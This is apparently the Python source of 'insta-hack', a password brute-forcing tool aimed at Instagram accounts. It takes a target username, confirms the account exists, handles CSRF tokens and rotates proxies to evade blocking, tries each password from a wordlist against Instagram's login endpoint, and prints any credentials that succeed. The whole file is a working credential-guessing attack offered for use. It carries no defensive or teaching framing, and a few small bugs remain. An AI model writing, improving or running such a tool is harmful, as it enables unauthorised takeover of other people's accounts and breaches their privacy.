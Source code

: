 # insta-hack

'''
TODO LIST:
	Fix and make proxy function better
	Sort code again
	Add help function to all "Yes/no" questions
	Add help  function to "Press enter to exit input"
'''
import requests
import json
import time
import os
import random
import sys

#Help function
def Input(text):
	value = ''
	if sys.version_info.major > 2:
		value = input(text)
	else:
		value = raw_input(text)
	return str(value)

#The main class
class Instabrute():
	def __init__(self, username, passwordsFile='pass.txt'):
		self.username = username
		self.CurrentProxy = ''
		self.UsedProxys = []
		self.passwordsFile = passwordsFile
		
		#Check if passwords file exists
		self.loadPasswords()
		#Check if username exists
		self.IsUserExists()


		UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
		if (UsePorxy == 'Y' or UsePorxy == 'YES'):
			self.randomProxy()


	#Check if password file exists and check if he contain passwords
	def loadPasswords(self):
		if os.path.isfile(self.passwordsFile):
			with open(self.passwordsFile) as f:
				self.passwords = f.read().splitlines()
				passwordsNumber = len(self.passwords)
				if (passwordsNumber > 0):
					print ('[*] %s Passwords loads successfully' % passwordsNumber)
				else:
					print('Password file are empty, Please add passwords to it.')
					Input('[*] Press enter to exit')
					exit()
		else:
			print ('Please create passwords file named "%s"' % self.passwordsFile)
			Input('[*] Press enter to exit')
			exit()

	#Choose random proxy from proxys file
	def randomProxy(self):
		plist = open('proxy.txt').read().splitlines()
		proxy = random.choice(plist)

		if not proxy in self.UsedProxys:
			self.CurrentProxy = proxy
			self.UsedProxys.append(proxy)
		try:
			print('')
			print('[*] Check new ip...')
			print ('[*] Your public ip: %s' % requests.get('http://myexternalip.com/raw', proxies={ "http": proxy, "https": proxy },timeout=10.0).text)
		except Exception as e:
			print  ('[*] Can\'t reach proxy "%s"' % proxy)
		print('')


	#Check if username exists in instagram server
	def IsUserExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if (r.status_code == 404):
			print ('[*] User named "%s" not found' % username)
			Input('[*] Press enter to exit')
			exit()
		elif (r.status_code == 200):
			return True

	#Try to login with password
	def Login(self, password):
		sess = requests.Session()

		if len(self.CurrentProxy) > 0:
			sess.proxies = { "http": self.CurrentProxy, "https": self.CurrentProxy }

		#build requests headers
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#Update token after enter to the site
		r = sess.get('https://www.instagram.com/') 
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

		#Update token after login to the site 
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={'username':self.username, 'password':password}, allow_redirects=True)
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
		
		#parse response
		data = json.loads(r.text)
		if (data['status'] == 'fail'):
			print (data['message'])

			UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
			if (UsePorxy == 'Y' or UsePorxy == 'YES'):
				print ('[$] Try to use proxy after fail.')
				randomProxy() #Check that, may contain bugs
			return False

		#return session if password is correct 
		if (data['authenticated'] == True):
			return sess 
		else:
			return False






instabrute = Instabrute(Input('Please enter a username: '))

try:
	delayLoop = int(Input('[*] Please add delay between the bruteforce action (in seconds): ')) 
except Exception as e:
	print ('[*] Error, software use the defult value "4"')
	delayLoop = 4
print ('')



for password in instabrute.passwords:
	sess = instabrute.Login(password)
	if sess:
		print ('[*] Login success %s' % [instabrute.username,password])
	else:
		print ('[*] Password incorrect [%s]' % password)

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		WantToExit = str(Input('Type y/n to exit: ')).upper()
		if (WantToExit == 'Y' or WantToExit == 'YES'):
			exit()
		else:
			continue
